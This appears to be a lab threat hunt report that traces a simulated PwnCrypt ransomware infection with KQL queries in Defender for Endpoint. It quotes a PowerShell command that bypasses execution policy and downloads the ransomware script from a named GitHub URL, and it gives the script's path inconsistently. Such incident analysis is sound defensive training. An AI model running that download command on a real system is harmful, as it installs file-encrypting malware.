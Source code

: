 
<p align="center">
  <img src="https://github.com/user-attachments/assets/b7afca87-3ed2-42cd-b8a1-0a0e21d19d15"
</p>

# Threat Hunt Report:  Zero-Day-Ransomware-PwnCrypt-Outbreak
- [Scenario Creation](https://github.com/JordanDanielWest/Zero-Day-Ransomware-PwnCrypt-Outbreak/blob/main/Zero%20Day%20Event%20Creation.md)

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)

##  Scenario

A new ransomware strain named PwnCrypt has been reported in the news, leveraging a PowerShell-based payload to encrypt files on infected systems. The payload, using AES-256 encryption, targets specific directories such as the C:\Users\Public\Desktop, encrypting files and prepending a .pwncrypt extension to the original extension. For example, hello.txt becomes hello.pwncrypt.txt after being targeted with the ransomware. The CISO is concerned with the new ransomware strain being spread to the corporate network and wishes to investigate.

### High-Level Ransomware IoC Discovery Plan

- **Check `DeviceFileEvents`** for any files with `pwncrypt`.
- **Check `DeviceProcessEvents`** to determine delivery method and identify persistent malicious mechanisms.
- **Check `DeviceNetworkEvents`** to identify if there is any communication with a C2 server.
---

## Steps Taken

### 1. Searched the `DeviceFileEvents` Table

I ran a query in DeviceFileEvents that revealed a file named `pwncrypt.ps1` created at `2025-04-17T20:14:28.4324263Z` confirming that the Pwncrypt Ransomware has infected our corporate network.

Folder Path: `C:\ProgramData\pwncrypt.ps1`

**Query used to locate events:**

```kql
DeviceFileEvents
| where DeviceName == "edr-machine"
| where FileName has_any ("pwncrypt")
| sort by Timestamp desc
```
![image](https://github.com/user-attachments/assets/03e9c92a-5852-466c-9c6e-19d11492f91d)

---
### 2. Searched the `DeviceFileEvents` Table

I ran a query that revealed several files created with the “pwncrypt” extension.
- Files: `1308_EmployeeRecords_pwncrypt.csv`, `6664_ProjectList_pwncrypt.csv`, `2669_CompanyFinancials_pwncrypt.csv`.


**Query used to locate events:**
```kql
DeviceFileEvents
| where DeviceName == "edr-machine"
| where FileName has_any ("pwncrypt")
| sort by Timestamp desc
| project Timestamp, ActionType, FileName, FolderPath, InitiatingProcessAccountName, InitiatingProcessParentFileName, InitiatingProcessCommandLine
| where ActionType  == "FileCreated"
| where Timestamp >= datetime(2025-04-17T20:14:28.4324263Z)
```
![image](https://github.com/user-attachments/assets/2542925f-a21c-4154-806a-1e40613a3390)
![image](https://github.com/user-attachments/assets/236da8c4-50dd-41db-8d8e-6647e9c8c868)

### 3. Searched the `DeviceProcessEvents` Table

Next, I examined the DeviceProcessEvents table to identify how the files were encrypted. The data revealed evidence of manual execution of `cmd.exe` and `powershell.exe`.
- Additionally, the `InitiatingProcessCommandLine` revealed the script that was run:
  - `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1`
    - The command opens PowerShell and tells it to ignore all safety settings with `ExecutionPolicy Bypass `
    - Then downloads a suspicious script called pwncrypt.ps1 from the internet:`Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1`
    - And, finally saves it in a system folder:`C:\ProgramData\pwncrypt.ps1`

**Query used to locate event:**

```kql

DeviceProcessEvents
| where DeviceName == "edr-machine"
| where FileName endswith "powershell.exe"
| where ProcessCommandLine contains "pwncrypt.ps1"
| project Timestamp, ProcessCommandLine, InitiatingProcessCommandLine, InitiatingProcessAccountName
| sort by Timestamp desc
```
![image](https://github.com/user-attachments/assets/e50340a2-bed0-42bf-95b4-581d12ea59a4)

---
### 4: Identifying the Executing Account

The initiating process account for the execution of `pwncrypt.ps1` was `SYSTEM`, indicating the script was run with elevated privileges. This suggests it may have been executed via a scheduled task or system-level process. Due to current access limitations, I forwarded my findings to a senior analyst with the appropriate credentials to investigate further.

---

### 5: Checked for Malicious Persistence Mechanisms

I ran a query to determine whether any malicious persistence mechanisms were installed on the system (e.g., via schtasks or sc.exe). The results showed several instances of sc.exe, but all were related to legitimate service starts such as the Windows Time Service. No evidence of malicious scheduled tasks or services was found.

**Query used to locate event:**
```kql
DeviceProcessEvents
| where DeviceName == "edr-machine"
| where ProcessCommandLine has_any ("schtasks", "Schedule", "Task")
| sort by Timestamp desc
```
![image](https://github.com/user-attachments/assets/1eaf3df0-d6be-46c6-9729-9a0b528cb6dd)

---
### 6: Investigated Network Traffic for C2 Communication

I ran a query to check for any suspicious or malicious traffic coming from the target machine that could indicate communication with a Command and Control (C2) server. No suspicious traffic was detected.

**Query used to locate event:**
```kql
DeviceNetworkEvents
| where DeviceName == "edr-machine"
| where RemoteUrl has_any ("pwncrypt", "ransomware", "malicious")
| sort by Timestamp desc
```
---
## Chronological Event Timeline 

### 1. Script Execution - PwnCrypt Script (pwncrypt.ps1)

- **Timestamp:** `2025-04-17T20:14:28.4324263Z`
- **Event:** The `SYSTEM` account executed the `pwncrypt.ps1` script on `edr-machine`, triggering a download from an external source.
- **Action:** `pwncrypt.ps1` downloaded from an external GitHub repository and executed on the machine.
- **File Path:** `C:\Users\Public\Downloads\pwncrypt.ps1`
- **Process Path:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
- **Command:** `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1`

### 2. File Creation - Encrypted Files (pwncrypt.csv)

- **Timestamp:** `2025-04-17T20:14:32.2519605Z`
- **Event:** The `pwncrypt.ps1` script executed successfully, generating three encrypted files on `edr-machine`.
- **Action:** Files created by the script.
- **File Path:** `C:\Users\Public\Documents\1308_EmployeeRecords_pwncrypt.csv`, `C:\Users\Public\Documents\6664_ProjectList_pwncrypt.csv`, `C:\Users\Public\Documents\2669_CompanyFinancials_pwncrypt.csv`

---

## Summary

At Apr 17, 2025 3:14:28 PM, the system executed a malicious PowerShell script using the `SYSTEM` account. The command bypassed execution policy restrictions and used `Invoke-WebRequest` to download a ransomware payload named `pwncrypt.ps1` from a public GitHub repository, saving it to `C:\programdata\pwncrypt.ps1`. Immediately after, the script was executed, initiating the ransomware behavior. As a result, several files were encrypted and renamed with a `.pwncrypt` extension. Specifically, the files `1308_EmployeeRecords_pwncrypt.csv`, `6664_ProjectList_pwncrypt.csv`, and `2669_CompanyFinancials_pwncrypt.csv` were created. There was no evidence of further command and control communication, data exfiltration, or persistent mechanisms beyond this activity. The attack was contained to local file encryption initiated by the executed script.

---

## Response Taken

Pwncrypt-encrypted files were discovered on the corporate network, prompting an immediate investigation to determine the source and scope of the incident. Analysis of endpoint telemetry revealed a malicious PowerShell command was executed under the `SYSTEM` account on the host `edr-machine`. There was no indication of lateral movement, persistence mechanisms, or communication with an external command and control server. Due to access limitations, the incident was escalated to senior analysts for further review. Remediation actions included isolating the affected system, removing the malicious script, and restoring affected files from backups.


